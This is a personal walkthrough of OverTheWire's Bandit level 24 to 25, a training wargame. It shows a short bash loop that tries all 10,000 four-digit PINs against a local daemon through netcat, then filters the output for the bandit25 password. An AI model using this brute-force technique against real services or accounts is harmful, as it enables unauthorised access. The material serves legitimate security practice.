

```markdown
# Written by: VINOD .N. RATHOD  

# Bandit Walkthrough — Level 24 → Level 25  

# Date: 24-08-2025  

## Objective  
Retrieve the password for "bandit25".  
A daemon is listening on "port 30002". It requires:  
1. The password for the current level ("bandit24").  
2. A secret "4-digit passcode".  

Since the passcode is unknown, we need to "brute-force" it.  
```

## **Steps to Solve**

### Step 1 — Test the Service

1. First, connect to the service using `netcat` to understand how it works:

```bash
   nc localhost 30002
```

It prompts for the password and a 4-digit pin in a single line:

```
<bandit24_password> <4_digit_pin>
```

If the pin is incorrect, the service responds with:

```
Wrong! Please enter the correct pincode. Try again.
```

---

### Step 2 — Create a Working Directory

2. Create a temporary working directory inside `/tmp`:

```bash
   cd /tmp
   mkdir V1NNN22
   cd V1NNN22
```

---

### Step 3 — Write the Brute-Force Script

3. Create a brute-force script named `bruteforce`:

```bash
   nano bruteforce
```

Insert the following code:

```bash
   #!/bin/bash
   passwd="(enter your bandit24 password here)"
   for i in {0000..9999}
   do
      echo $passwd" "$i
   done
```

Save and exit.

---

### Step 4 — Make Script Executable

4. Grant execute permissions:

```bash
   chmod +x bruteforce
```

---

### Step 5 — Run the Brute-Force Attack

5. Run the script and pipe its output into the daemon. Save the results into a file:

```bash
   ./bruteforce | nc localhost 30002 > result.txt
```

The script will take some time to run as it tests all **10,000 combinations**.

---

### Step 6 — Filter Results

6. Once the script finishes, filter the results to remove all wrong attempts:

```bash
   grep -v "Wrong" result.txt
```

This will display the line containing the **correct password for bandit25**.

---




### Step 7 — Login as bandit25

7. Use the retrieved password to log in as **bandit25**:

```bash
   ssh bandit25@bandit.labs.overthewire.org -p 2220
```

## **Outcome**

* By brute-forcing the **4-digit code**, we retrieved the password for **bandit25**.
* Successfully logged into the server as **bandit25** and moved to the next level.

---

# THANK YOU!

# \~ **V1NNN22** \~

